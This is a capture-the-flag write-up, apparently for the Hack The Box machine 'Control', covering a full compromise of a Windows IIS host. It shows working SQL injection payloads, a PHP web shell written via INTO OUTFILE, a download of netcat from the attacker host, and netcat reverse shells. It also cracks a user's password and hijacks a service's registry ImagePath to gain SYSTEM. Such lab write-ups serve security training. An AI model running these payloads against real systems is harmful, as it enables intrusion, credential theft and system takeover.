










# Control
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.10.167 --min-rate 10000
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-30 20:22 BST
Nmap scan report for 10.10.10.167 (10.10.10.167)
Host is up (0.11s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
3306/tcp  open  mysql
49666/tcp open  unknown
49667/tcp open  unknown

```
```
└─$ nmap -Pn -p80,135,3306 -sC -sV 10.10.10.167 --min-rate 10000
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-30 20:23 BST
Nmap scan report for 10.10.10.167 (10.10.10.167)
Host is up (0.12s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Fidelity
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp  open  msrpc   Microsoft Windows RPC
3306/tcp open  mysql?
| fingerprint-strings: 
|   NULL, SIPOptions: 
|_    Host '10.10.16.9' is not allowed to connect to this MariaDB server
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.94%I=7%D=9/30%Time=6518759C%P=x86_64-pc-linux-gnu%r(NU
SF:LL,49,"E\0\0\x01\xffj\x04Host\x20'10\.10\.16\.9'\x20is\x20not\x20allowe
SF:d\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(SIPOptions,49
SF:,"E\0\0\x01\xffj\x04Host\x20'10\.10\.16\.9'\x20is\x20not\x20allowed\x20
SF:to\x20connect\x20to\x20this\x20MariaDB\x20server");
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.22 seconds

```

- `mysql`
```
└─$ mysql -h 10.10.10.167
ERROR 1130 (HY000): Host '10.10.16.9' is not allowed to connect to this MariaDB server

```

- Web Server

- `gobuster`
```
└─$ gobuster dir -u http://10.10.10.167/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50  -x php --no-error
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.167/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2023/09/30 20:24:57 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 3145]
/images               (Status: 301) [Size: 150] [--> http://10.10.10.167/images/]
/about.php            (Status: 200) [Size: 7867]
/uploads              (Status: 301) [Size: 151] [--> http://10.10.10.167/uploads/]
/Images               (Status: 301) [Size: 150] [--> http://10.10.10.167/Images/]
/admin.php            (Status: 200) [Size: 89]
/assets               (Status: 301) [Size: 150] [--> http://10.10.10.167/assets/]
/About.php            (Status: 200) [Size: 7867]
/Index.php            (Status: 200) [Size: 3145]
/database.php         (Status: 200) [Size: 0]
```

## Foothold
- We have comments in the web page source  


- If we visit `admin.php` we receive `Access Denied: Header Missing. Please ensure you go through the proxy to access this page`
  - We would probably have to `fuzz` the headers



- Let's use `wfuzz` for that
  - List of possible headers: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers
```
└─$ wfuzz -u http://10.10.10.167/admin.php -w headers -H 'FUZZ: test' --hh 89
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.167/admin.php
Total requests: 162

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                    
=====================================================================

000000032:   400        6 L      34 W       374 Ch      "Content-Length"
000000029:   400        6 L      28 W       339 Ch      "Non-standard Deprecated"
000000004:   400        6 L      28 W       339 Ch      "Non-standard Deprecated"
000000073:   400        6 L      28 W       339 Ch      "Non-standard Deprecated"
000000054:   400        6 L      28 W       339 Ch      "Non-standard Deprecated"
000000137:   501        6 L      26 W       343 Ch      "Transfer-Encoding"
000000150:   400        6 L      28 W       339 Ch      "Non-standard Deprecated"
000000144:   400        6 L      28 W       339 Ch      "Non-standard Deprecated"                                                                                                                                                  

Total time: 2.707290
Processed Requests: 162
Filtered Requests: 154
Requests/sec.: 59.83842
```

- Nothing special, but remembering the hint we saw about the proxy, I set it to box ip
```
└─$ wfuzz -u http://10.10.10.167/admin.php -w headers -H 'FUZZ: 10.10.10.167' --hh 89
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.167/admin.php
Total requests: 162

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                    
=====================================================================

000000029:   400        6 L      28 W       339 Ch      "Non-standard Deprecated"
000000032:   400        6 L      34 W       374 Ch      "Content-Length"
000000004:   400        6 L      28 W       339 Ch      "Non-standard Deprecated"
000000073:   400        6 L      28 W       339 Ch      "Non-standard Deprecated"
000000054:   400        6 L      28 W       339 Ch      "Non-standard Deprecated"
000000150:   400        6 L      28 W       339 Ch      "Non-standard Deprecated"
000000144:   400        6 L      28 W       339 Ch      "Non-standard Deprecated"
000000137:   501        6 L      26 W       343 Ch      "Transfer-Encoding"

Total time: 2.680402
Processed Requests: 162
Filtered Requests: 154
Requests/sec.: 60.43868
```

- Nothing again, but then I tried `192.168.4.28`, which we saw in comments
  - We received a new header: `X-Forwarded-For`, which return 7933 chars
```
└─$ wfuzz -u http://10.10.10.167/admin.php -w headers -H 'FUZZ: 192.168.4.28' --hh 89
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.167/admin.php
Total requests: 162

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                    
=====================================================================

000000032:   400        6 L      34 W       374 Ch      "Content-Length"
000000029:   400        6 L      28 W       339 Ch      "Non-standard Deprecated"
000000004:   400        6 L      28 W       339 Ch      "Non-standard Deprecated"
000000073:   400        6 L      28 W       339 Ch      "Non-standard Deprecated"
000000054:   400        6 L      28 W       339 Ch      "Non-standard Deprecated"
000000137:   501        6 L      26 W       343 Ch      "Transfer-Encoding"
000000155:   200        153 L    466 W      7933 Ch     "X-Forwarded-For"
000000150:   400        6 L      28 W       339 Ch      "Non-standard Deprecated"
000000144:   400        6 L      28 W       339 Ch      "Non-standard Deprecated"

Total time: 0
Processed Requests: 162
Filtered Requests: 153
Requests/sec.: 0

```

- I installed [Modify Header Value](https://addons.mozilla.org/en-US/firefox/addon/modify-header-value/) to `Firefox`



- And now we see the page



- Playing around with the `search` panel resulted in successful `SQL` injection


- Let's find the number of columns
  - It's 6



- Dump the `databases`
  - `productName=' union select 1,schema_name,3,4,5,6 from information_schema.schemata-- -`

- Dump `warehouse` daatabase
  - `productName=' union select table_schema,table_name,3,4,5,6 from information_schema.tables where table_schema='warehouse'-- -`



- Nothing interesting
  - Let's check `mysql` database
  - `productName=' union select host,user,password,4,5,6 from mysql.user-- -`
  - We can start cracking hashes in the background


- Let's also check privileges
  - We are `manager` user
  - `productName=' union select grantee,privilege_type,is_grantable,4,5,6 from information_schema.user_privileges-- -`
  - `manager` has `file` privileges





- Let's try creating a webshell
  - https://book.hacktricks.xyz/network-services-pentesting/pentesting-mysql#mysql-commands
  - `productName=' union select '<?php system($_GET[\'cmd\']); ?>',2,3,4,5,6 into outfile 'c:/inetpub/wwwroot/shell.php'-- -`
  - First run returns an error, but second run says that the file exists




- And it works
```
└─$ curl -s http://10.10.10.167/shell.php?cmd=whoami                                  
nt authority\iusr
        2       3       4       5       6
                                              
```

- Let's get reverse shell
```
└─$ curl -s 'http://10.10.10.167/shell.php?cmd=powershell+wget+10.10.16.9/nc64.exe+-outfile+\programdata\nc.exe' 
        2       3       4       5       6
                                       
```
```
└─$ curl -s 'http://10.10.10.167/shell.php?cmd=dir+\programdata'                                                
 Volume in drive C has no label.
 Volume Serial Number is DC9E-2AFB

 Directory of C:\programdata

11/01/2019  04:58 PM    <DIR>          Microsoft Visual Studio
10/01/2023  05:26 PM            45,272 nc.exe
10/24/2019  06:00 PM    <DIR>          Package Cache
10/01/2023  05:17 PM    <DIR>          regid.1991-06.com.microsoft
09/15/2018  10:19 AM    <DIR>          SoftwareDistribution
10/21/2019  05:31 PM    <DIR>          USOPrivate
10/21/2019  05:31 PM    <DIR>          USOShared
10/21/2019  05:30 PM    <DIR>          VMware
               1 File(s)         45,272 bytes
               7 Dir(s)  14,795,485,184 bytes free
        2       3       4       5       6
                                                  
```
```
└─$ curl -s 'http://10.10.10.167/shell.php?cmd=\programdata\nc.exe+10.10.16.9+6666+-e+cmd'                  

```



## User
- Enumerate
```
C:\inetpub\wwwroot>dir \users
dir \users
 Volume in drive C has no label.
 Volume Serial Number is DC9E-2AFB

 Directory of C:\users

11/05/2019  03:34 PM    <DIR>          .
11/05/2019  03:34 PM    <DIR>          ..
10/01/2023  02:44 PM    <DIR>          Administrator
11/01/2019  12:09 PM    <DIR>          Hector
10/21/2019  05:29 PM    <DIR>          Public
               0 File(s)              0 bytes
               5 Dir(s)  14,795,485,184 bytes free
```
```
C:\inetpub\wwwroot>whoami /groups
whoami /groups

GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes                                        
==================================== ================ ============ ==================================================
Mandatory Label\High Mandatory Level Label            S-1-16-12288                                                   
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\IIS_IUSRS                    Alias            S-1-5-32-568 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Group used for deny only                          
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
```

- `hector` user
  - He's a member of `Remote Management Use*Users`
```
C:\inetpub\wwwroot>net user hector
net user hector
User name                    Hector
Full Name                    Hector
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            11/1/2019 12:27:50 PM
Password expires             Never
Password changeable          11/1/2019 12:27:50 PM
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   10/1/2023 2:44:24 PM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use*Users                
Global Group memberships     *None                 
The command completed successfully.

```

- The port `5985` is listening
  - But not available from outside
```
C:\inetpub\wwwroot>netstat -ano
netstat -ano

Active Connections

  Proto  Local Address          Foreign Address        State           PID
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       812
  TCP    0.0.0.0:3306           0.0.0.0:0              LISTENING       1952
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       452
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       348
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       964
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       1764
  TCP    0.0.0.0:49668          0.0.0.0:0              LISTENING       584
  TCP    0.0.0.0:49669          0.0.0.0:0              LISTENING       604
  TCP    10.10.10.167:80        10.10.16.9:48872       ESTABLISHED     4
  TCP    10.10.10.167:49700     10.10.16.9:6666        ESTABLISHED     3480
  TCP    [::]:80                [::]:0                 LISTENING       4
  TCP    [::]:135               [::]:0                 LISTENING       812
  TCP    [::]:3306              [::]:0                 LISTENING       1952
  TCP    [::]:5985              [::]:0                 LISTENING       4
  TCP    [::]:47001             [::]:0                 LISTENING       4
  TCP    [::]:49664             [::]:0                 LISTENING       452
  TCP    [::]:49665             [::]:0                 LISTENING       348
  TCP    [::]:49666             [::]:0                 LISTENING       964
  TCP    [::]:49667             [::]:0                 LISTENING       1764
  TCP    [::]:49668             [::]:0                 LISTENING       584
  TCP    [::]:49669             [::]:0                 LISTENING       604
  UDP    0.0.0.0:123            *:*                                    1936
  UDP    0.0.0.0:5353           *:*                                    1168
  UDP    0.0.0.0:5355           *:*                                    1168
  UDP    127.0.0.1:51867        *:*                                    964
  UDP    [::]:123               *:*                                    1936
  UDP    [::]:5353              *:*                                    1168
  UDP    [::]:5355              *:*                                    1168

```

- Let's check the results from `hashcat`
```
hector:0E178792E8FC304A2E3133D535D38CAF1DA3CD9D
manager:CFE3EEE434B38CBF709AD67A4DCDEA476CBA7FDA                                 
root:0A4A5CAD344718DC418035A1F4D292BA603134D8
```
```
└─$ hashcat -m 300 hash /usr/share/wordlists/rockyou.txt --user
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 3.1+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: pthread-sandybridge-12th Gen Intel(R) Core(TM) i5-12400, 1436/2936 MB (512 MB allocatable), 2MCU
...
* Keyspace..: 14344385

0e178792e8fc304a2e3133d535d38caf1da3cd9d:l33th4x0rhector  
Approaching final keyspace - workload adjusted.           
...
```
- We have a potential password
  - Let's try running commands as `hector`
  - And it works
```
PS C:\inetpub\wwwroot> $env:ComputerName
$env:ComputerName
CONTROL
PS C:\inetpub\wwwroot> $user = "CONTROL\hector"
$user = "CONTROL\hector"
PS C:\inetpub\wwwroot>  $pass = ConvertTo-SecureString "l33th4x0rhector"  -AsPlainText -Force
 $pass = ConvertTo-SecureString "l33th4x0rhector"  -AsPlainText -Force
PS C:\inetpub\wwwroot> $cred = New-Object System.Management.Automation.PSCredential($user, $pass)
$cred = New-Object System.Management.Automation.PSCredential($user, $pass)
PS C:\inetpub\wwwroot> Invoke-Command -Computer localhost -Credential $cred -ScriptBlock { whoami }
Invoke-Command -Computer localhost -Credential $cred -ScriptBlock { whoami }
control\hector
PS C:\inetpub\wwwroot> 
```

- Let's get a reverse shell
```
PS C:\inetpub\wwwroot> Invoke-Command -Computer localhost -Credential $cred -ScriptBlock { \programdata\nc.exe 10.10.16.9 7777 -e cmd }
Invoke-Command -Computer localhost -Credential $cred -ScriptBlock { \programdata\nc.exe 10.10.16.9 7777 -e cmd }
```



## Root
- I'll run [PrivescCheck](https://github.com/itm4n/PrivescCheck)


- We could've saw it from `Powershell History`
  - First will list the services
  - Second will list the permissions
```
PS C:\programdata> cat (Get-PSReadlineOption).HistorySavePath
cat (Get-PSReadlineOption).HistorySavePath
get-childitem HKLM:\SYSTEM\CurrentControlset | format-list
get-acl HKLM:\SYSTEM\CurrentControlSet | format-list
```
```

```
- We have 237 `SERVICES > Registry Permissions`
  - https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services-registry-modify-permissions
  - We need to look for a service registry with `LocalSystem`
```
PS HKLM:\SYSTEM\CurrentControlset\Services> $services = get-itemproperty -path HKLM:\SYSTEM\CurrentControlset\Services\*
$services = get-itemproperty -path HKLM:\SYSTEM\CurrentControlset\Services\*
PS HKLM:\SYSTEM\CurrentControlset\Services> $system_services = $services | where { $_.objectname -eq 'LocalSystem' -and $_.start -eq 3} 
$system_services = $services | where { $_.objectname -eq 'LocalSystem' -and $_.start -eq 3}
PS HKLM:\SYSTEM\CurrentControlset\Services> $system_services | select pschildname | measure-object
$system_services | select pschildname | measure-object


Count    : 129
Average  : 
Sum      : 
Maximum  : 
Minimum  : 
Property : 


```

- We need to check permissions for the services which we can start and stop
  - https://dimitri.janczak.net/2018/06/01/start-stop-service-rights-to-non-administrators/
```
PS HKLM:\SYSTEM\CurrentControlset\Services> $service_names = $system_services.pschildname
$service_names = $system_services.pschildname
PS HKLM:\SYSTEM\CurrentControlset\Services> foreach ($service in $service_names) { $sddl = (cmd.exe /c sc.exe sdshow $service); if ($sddl -match "RP[A-Z]*?;;;AU") { write-host $service; } }
foreach ($service in $service_names) { $sddl = (cmd.exe /c sc.exe sdshow $service); if ($sddl -match "RP[A-Z]*?;;;AU") { write-host $service; } }
ConsentUxUserSvc
DevicesFlowUserSvc
DoSvc
PimIndexMaintenanceSvc
PrintWorkflowUserSvc
seclogon
SstpSvc
UnistoreSvc
UserDataSvc
WaaSMedicSvc
WinHttpAutoProxySvc
wuauserv
```
- We can start the a few services
  - Let's start from the bottom
  - We will use `set-itemproperty`

```
PS C:\programdata> set-itemproperty -path HKLM:\system\currentcontrolset\services\wuauserv -name imagepath -value "c:\programdata\nc.exe 10.10.16.9 8888 -e cmd"
set-itemproperty -path HKLM:\system\currentcontrolset\services\wuauserv -name imagepath -value "c:\programdata\nc.exe 10.10.16.9 8888 -e cmd"
PS C:\programdata> get-itemproperty -path HKLM:\system\currentcontrolset\services\wuauserv
get-itemproperty -path HKLM:\system\currentcontrolset\services\wuauserv


DependOnService     : {rpcss}
Description         : @%systemroot%\system32\wuaueng.dll,-106
DisplayName         : @%systemroot%\system32\wuaueng.dll,-105
ErrorControl        : 1
FailureActions      : {128, 81, 1, 0...}
ImagePath           : c:\programdata\nc.exe 10.10.16.9 8888 -e cmd
ObjectName          : LocalSystem
RequiredPrivileges  : {SeAuditPrivilege, SeCreateGlobalPrivilege, SeCreatePageFilePrivilege, SeTcbPrivilege...}
ServiceSidType      : 1
Start               : 3
SvcMemHardLimitInMB : 246
SvcMemMidLimitInMB  : 167
SvcMemSoftLimitInMB : 88
Type                : 32
PSPath              : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\system\currentcontrolset\services\wuauserv
PSParentPath        : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\system\currentcontrolset\services
PSChildName         : wuauserv
PSDrive             : HKLM
PSProvider          : Microsoft.PowerShell.Core\Registry
```

- Now, start the service and get your shell
```
PS HKLM:\SYSTEM\CurrentControlset\Services> start-service wuauserv
start-service wuauserv
start-service : Service 'Windows Update (wuauserv)' cannot be started due to the following error: Cannot start service 
wuauserv on computer '.'.
At line:1 char:1
+ start-service wuauserv
+ ~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : OpenError: (System.ServiceProcess.ServiceController:ServiceController) [Start-Service],  
   ServiceCommandException
    + FullyQualifiedErrorId : CouldNotStartService,Microsoft.PowerShell.Commands.StartServiceCommand
```

